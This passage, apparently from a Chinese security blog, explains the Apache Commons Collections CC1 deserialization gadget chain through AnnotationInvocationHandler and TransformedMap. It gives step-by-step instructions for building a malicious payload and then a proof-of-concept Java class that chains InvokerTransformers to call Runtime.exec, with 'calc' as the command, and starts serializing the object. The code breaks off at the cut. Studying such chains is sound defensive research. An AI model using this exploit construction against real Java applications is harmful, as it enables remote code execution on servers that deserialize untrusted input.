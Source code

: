 然后循环 `this.memberValues` 这个 Map ，获取其 Key，如果注解类的 memberTypes 属性中存在与 `this.memberValues` 的 key 相同的属性，并且取得的值不是 ExceptionProxy 的实例也不是 memberValues 中值的实例，则取得其值，并调用 setValue 方法写入值

然后进入`AbstractInputCheckedMapDecorator.java`的 setValue 方法
![](https://img-blog.csdnimg.cn/19bda41519514868bd119bdda8d2d3bb.png)
调用`TransformedMap.java`的checkSetValue方法，执行transform
![](https://img-blog.csdnimg.cn/866dcfbd8f9d4bcab4693ad9066419a3.png)

所以我们构造恶意 payload 的思路就清楚了：
- 构造一个 AnnotationInvocationHandler 实例，初始化时传入一个注解类和一个 Map，这个 Map 的 key 中要有注解类中存在的属性，但是值不是对应的实例，也不是 ExceptionProxy 对象
- 这个 Map 由 TransformedMap 封装，并调用自定义的 ChainedTransformer 进行装饰
- ChainedTransformer 中写入多个 Transformer 实现类，用于链式调用，完成恶意操作


POC：
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.annotation.Generated;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws InvocationTargetException, IllegalAccessException, NoSuchMethodException, ClassNotFoundException, InstantiationException, IOException {

        Map hashMap = new HashMap();
        // 这里 key 一定是 下面实例化 AnnotationInvocationHandler 时传入的注解类中存在的属性值
        // 并且这里的值的一定不是属性值的类型
        //hashMap.put("comments", 2);
        hashMap.put("value", "value");

        // 结合 ChainedTransformer
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });

        Map transformedMap = TransformedMap.decorate(hashMap, null, chain);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

        Constructor construct = c.getDeclaredConstructor(Class.class, Map.class);

        construct.setAccessible(true);
        //InvocationHandler handler = (InvocationHandler) constructor.newInstance(Generated.class, transformedMap);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Target.class, transformedMap);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc1"));
```